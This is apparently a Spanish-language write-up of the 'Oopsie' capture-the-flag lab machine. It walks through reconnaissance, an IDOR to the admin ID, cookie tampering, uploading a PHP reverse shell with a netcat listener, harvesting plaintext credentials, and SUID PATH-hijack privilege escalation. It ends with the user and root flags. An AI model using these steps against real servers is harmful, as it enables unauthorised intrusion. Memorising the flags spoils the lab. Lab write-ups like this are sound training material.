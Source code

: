 ```yaml
---
title: Máquina Oopsie
published: true
---
```


Jorge Marco Arráez

## [](#header-3) 1)    With what kind of tool can intercept web traffic? 

Proxy

## [](#header-3) 2)     What is the path to the directory on the webserver that returns a login page?  

sudo nmap -sS --min-rate 5000 -Pn -n -oN nmap/initial $IP
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Con un segundo escaneo me aseguro de no haberme dejado nada: 

sudo nmap -sS -A --min-rate 5000 -Pn -p- -n -oN nmap/initial $IP

El servidor web es Apache/2.4.29 (Ubuntu). Tiene ssh abierto (OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0))

Para encontrar los directorios utilizo gobuster y uno de los muchos diccionarios de Daniel Miessler.

```
gobuster dir -w /opt/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.88.50
```

Todos los directorios que me reporta gobuster deniegan el acceso cuando intento acceder a ellos. Voy a probar a usar burpsuite para ver si puedo sacar más información

Trasteando un poco con burpsuite he encontrado esto en las peticiones, pero no tengo muy claro como lo he hecho, miraré el walktrhough al acabar. 


/cdn-cgi/login

También veo que existe

/cdn-cgi/login/script.js

Al intentar acceder a http://$IP/js, en la respuesta que manda el servidor aparece que acepta */*, lo que quiere decir que acepta cualquier tipo de MIME. 

## [](#header-3) 3)    What can be modified in Firefox to get access to the upload page? 

cookie

## [](#header-3) 4)    What is the access ID of the admin user?  

La página nos da la posibilidad de registrarnos como invitados, asi que tomamos esa oportunidad.
Vamos a la pestaña de account y nos fijamos en la url y vemos que hay un campo que ponec account&id=2, asumiendo que el administrador tendrá un id menor, pruebo con 1, y efectivamente así es. 

Su accessid es 34322, su username es admin y su correo es admin@megacorp.com

## [](#header-3) 5)    On uploading a file, what directory does that file appear in on the server?  

Ahora sí que puedo usar la información que me ha reportado gobuster, la carpeta a la que se suben los archivos es /uploads.

No sé si me he adelantado un poco, pero he subido el fichero nc64.exe para tenerlo ya disponible para hacer una reverse shell. 
Compruebo que funciona accediendo a http://10.129.88.50/uploads/nc64.exe, y viendo que firefox descarga el recurso.

Tras revisar todo el código de las páginas como indica la pista, incluido los .js, pruebo a hacer una reverse shell con php con el script de pentestmonkey. Lo edito y pongo mi direccion IP y el puerto en el que le voy a indicar a netcat que escuche, el 443. 

Tras subir el archivo, ejecuto 

```
nc -lnvp 443
```

y accedo a http://$IP/uploads/reverse-shell.php

En la terminal veo que he conseguido acceder.

Buscando entre los directorios consigo la user flag, aunque todavía no puedo enviarla.

El walkthrough nos indica que es conveniente ejecutar el siguiente comando para obtener una shell interactiva:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Moviendome entre los directorios llego a cdn-cgi/login, donde están alojados varios archivos .php, entre ellos db.php 
Su contenido es:

```
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

```

```
cat * | grep -i passwd*
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
```

el comando que buscamos es find

## [](#header-3) 6)    What is the file that contains the password that is shared with the robert user?  

db.php

## [](#header-3) 7)     What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? 

find

## [](#header-3) 8)    Regardless of which user starts running the bugtracker executable, what's user privileges will use to run? 

root

## [](#header-3) 9)   What SUID stands for?  

Set owner User ID

## [](#header-3) 10)   What is the name of the executable being called in an insecure manner? 

cat

## [](#header-3) 11)   Submit user flag  

Tras establecer la conexión navegamos a robert y con cat conseguimos los contenidos de la flag.


```
user=f2c74ee8db7983851ab2a96a44eb7981
```

## [](#header-3) 12)  Submit root flag 

```
cd tmp
touch cat
echo '/bin/sh' > cat
chmod +x cat
export PATH=/tmp:$PATH
echo $PATH
bugtracker
cd ..
ls
cd root
ls
xxd root.txt
```

```
root=af13b0bee69f8a877c3faf667f7beacf
```
